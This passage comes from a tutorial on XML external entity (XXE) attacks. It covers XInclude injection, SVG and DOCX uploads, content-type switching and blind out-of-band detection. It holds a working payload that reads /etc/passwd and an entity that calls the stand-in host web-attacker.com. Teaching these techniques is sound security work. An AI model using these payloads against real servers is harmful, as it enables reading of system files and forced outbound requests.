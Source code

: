```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE Attacks via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

### XXE Attacks via modified content type

Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar 
```

Then you might be able submit the following request, with the same result:

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo> 
```

If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.

### Detecting Blind XXE using out-of-band (OAST) techniques

You can often detect blind XXE using the same technique as for XXE SSRF attacks but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

You would then make use of the defined entity in a data value within the XML.
